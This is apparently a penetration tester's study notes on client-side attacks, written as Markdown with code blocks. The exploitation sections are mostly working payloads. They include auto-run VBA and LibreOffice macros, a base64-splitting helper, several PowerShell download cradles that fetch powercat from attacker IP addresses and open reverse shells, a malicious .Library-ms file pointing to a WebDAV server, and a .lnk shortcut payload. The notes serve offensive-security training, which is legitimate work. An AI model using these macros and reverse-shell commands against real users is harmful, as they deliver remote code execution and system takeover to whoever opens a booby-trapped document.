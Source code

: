 ```yaml
---
title: Client-Side Attacks
---
```

# Enumeration
## Files
- Check Metadata of available documents with `exiftool`
```zsh
exiftool -a -u brochure.pdf
```
- `-a` will let us extract duplicate tags
- `-u` will let us extract unknown tags

## Client Fingerprinting
- We can use [Canarytokens](https://canarytokens.org/nest/) (Type 'WebBug')to get an Alert if someone visits our link with some fingerprinting information
- We can also chose other options such as 'Microsoft Word Document' or 'Acrobat Reader PDF' to embed our Canarytoken in such files

# Exploitation
## VBA Macros
- We can add Macros to Microsoft Word or Microsoft Excel
- Make sure to use the 97-2003 File Format (i.e `.doc` and `.xls` instead of `.docx` or `.xslx`)
- Use `Sub AutoOpen()` and `Sub Document_Open()` to automatically trigger the macro upon opening the file
> [!Caution]
>  - VBA has a limit of 255 characters for literal strings - So some payloads will need to be split in multiple variables
>  - Encode the payload with `base64` to avoid issues with special characters
- Use a web cradle to download `PowerCat.ps1` and create a reverseshell with it
```zsh
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
```
- Encode this and create a `base64` string and add it to the macro `powershell.exe -nop -w hidden -e {base64-String}`
- In order to split the `base64` string, we can use the following script
```python
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```
- This would result in the following template macro
```vbscript
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "
    CreateObject("Wscript.Shell").Run Str
End Sub
```

## ODT Macros
- Similar to VBA Macros in `*.doc` or `*.xls` files we can add Macros to OpenOffice `*.odt` documents
- We can open up a new document in LibreOffice Write and add a Macro by navigating to Tools -> Marcos -> Organize Macros -> Basic...
- Select the newly created Document "Untitled 1" -> New and add the Marco code
```vbscript
Sub Main
	 Shell("cmd /c powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.45.180:8080/powercat.ps1');powercat -c 192.168.45.180 -p 80 -e powershell")
End Sub
```
- Save the document
- After creating the Marco we assign it to an action with Tools -> Customize -> Tab "Events" -> Open Document -> Macro...
![[Pasted image 20250118223417.png]]
- We should see the Marco assigned to the event after
![[Pasted image 20250118223905.png]]
## Windows Library Files

- Windows library files are virtual containers for user content. They connect users with data stored in remote locations like web services or shares. These files have a `.Library-ms` file extension and can be executed by double-clicking them in Windows Explorer
- Library files consist of three major parts, `General library information`, `Library properties` , and `Library locations` 
- We can create a WebDAV server which will contain a malicious `.lnk` file. After we can add our WebDAV link to the `.Library-ms` file
```zsh
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```
- A template `.Library-ms` file could look like this
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
- The malicious `.lnk` file is best created on Windows (RightClick -> New -> Shortcut). As location of the link we can directly input our command `powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.211:8000/powercat.ps1'); powercat -c 192.168.45.211 -p 9001 -e powershell`

## Hashgrab
- We can use [hashgrab](https://github.com/xct/hashgrab) to create `.lnk`, `.scf`,`.url` and other payloads that will trigger an authentication back to our machine which we can use to grab hashes using responder
- We can put those payloads on shares or locations that users might access
```zsh
py hashgrab.py 192.168.45.162 alexa
```